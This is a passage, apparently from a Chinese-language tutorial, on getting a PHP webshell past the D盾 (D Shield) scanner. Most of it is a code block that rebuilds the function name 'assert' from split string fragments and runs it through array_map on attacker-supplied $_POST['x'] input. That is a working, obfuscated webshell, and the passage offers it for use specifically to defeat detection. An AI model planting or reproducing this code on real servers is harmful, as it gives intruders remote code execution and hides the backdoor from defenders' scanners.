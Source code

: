 ![2级](ex_14.png)

这时候我们看一下D盾中的说明：array_map中的参数可疑，我们这时候可以用函数封装一下参数

```php
<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);
```
